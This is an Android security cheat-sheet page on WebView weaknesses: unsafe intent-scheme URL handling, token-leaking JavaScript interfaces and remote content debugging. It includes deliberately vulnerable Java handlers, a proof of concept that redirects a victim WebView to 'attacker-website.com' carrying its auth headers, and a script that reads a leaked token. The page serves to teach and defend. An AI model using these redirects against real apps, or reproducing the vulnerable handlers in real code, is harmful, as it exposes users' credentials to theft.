 # WebView overview

[WebView](https://developer.android.com/reference/android/webkit/WebView) is a View that displays web pages. WebView objects display web content as part of an activity layout, but lack some of the features of fully-developed browsers.

# Security issues

## Access to arbitrary components

The Intent class allows developers to convert an intent to a string holding a URI representation of it with the [toUri(flags)](https://developer.android.com/reference/android/content/Intent#toUri%28int%29) method and create an intent from this URI with the [parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri%28java.lang.String,%20int%29) method. An app can use this to parse a URL with the `intent` scheme into intent and launch an activity while handling the URL within the WebView. If the handling is not implemented correctly, you can access arbitrary components of the app.

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/android-application/intent#access-to-arbitrary-components" %}

Developers can override the [shouldOverrideUrlLoading()](https://developer.android.com/reference/android/webkit/WebViewClient#shouldOverrideUrlLoading%28android.webkit.WebView,%20android.webkit.WebResourceRequest%29) method of the WebViewClient class to handle all efforts to load a new link within WebView. The example of mishandling might look as follows:

```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if ("intent".equals(uri.getScheme())) {
        startActivity(Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME));
        return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}
```

This code adds a custom handler for URLs with the `intent` scheme that launch a new activity using the passed URL. You can exploit this mishandling by creating a WebView and redirecting it to a specially crafted `intent-scheme` URL:

```java
// Intent-scheme URL creation
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://attacker-website.com/");
String url = intent.toUri(Intent.URI_INTENT_SCHEME);
// "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end"
Log.d("evil", url);
```

```java
// AuthWebViewActivity
webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());
```

```javascript
// Redirect within WebView
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end";
```

However, there are several restrictions:

- Intent embedded `Parcelable` and `Serializable` objects cannot be converted to string and these objects will be ignored.
- The [Intent.parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri%28java.lang.String,%20int%29) ignores the [Intent.FLAG_GRANT_READ_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_READ_URI_PERMISSION) and [Intent.FLAG_GRANT_WRITE_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_WRITE_URI_PERMISSION) flags by default. The parser leaves them only if the [Intent.URI_ALLOW_UNSAFE](https://developer.android.com/reference/android/content/Intent#URI_ALLOW_UNSAFE) flag is set.

    ```java
    startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME | Intent.URI_ALLOW_UNSAFE))
    ```

## addJavascriptInterface

[addJavascriptInterface](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) method injects the supplied Java object into this WebView. The object is injected into all frames of the web page, including all the `iframes`, using the supplied name. This allows the Java object's methods to be accessed from JavaScript (the Java object's fields are not accessible).

This method can provide data to JavaScript or even allow JavaScript to controll the host application. For example, the following interface is leaking a user token:

```java
public class DefaultJavascriptInterface {
    Context context;

    public DefaultJavascriptInterface(Context c) {
        this.context = c;
    }

    @JavascriptInterface
    public getToken() {
        SharedPreferences sharedPref = context.getSharedPreferences(getString(
            R.string.preference_file_key), 
            Context.MODE_PRIVATE
        );
        return sharedPref.getString(getString(R.string.token_key), "")
    }
}
```

```java
public class DefaultActivity extends Activity {
    // ...

    public void loadWebView() {
        WebView webView = (WebView)findViewById(R.id.web_view);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.addJavascriptInterface(new DefaultJavascriptInterface(this), "DefaultJavascriptInterface")
        // ...
    }
}
```

```html
<script>
    alert("Token: " + DefaultJavascriptInterface.getToken());
</script>
```

## setWebContentsDebuggingEnabled

[setWebContentsDebuggingEnabled](https://developer.android.com/reference/android/webkit/WebView.html#setWebContentsDebuggingEnabled%28boolean%29) enables debugging of web contents (HTML/CSS/JavaScript) loaded into any WebViews of an application. This flag is used in order to facilitate debugging of web layouts and JavaScript code running inside WebViews.

{% hint style="info" %}
`WebContentsDebugging` is not affected by the state of the `debuggable` flag in the application's manifest. 
{% endhint %}

Enabling this flag allows you to execute arbitrary JavaScript code within any WebViews of an application.

References:
- [Remote debugging WebViews](https://developer.chrome.com/docs/devtools/remote-debugging/webviews/)

# References

- [Oversecured: Android Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
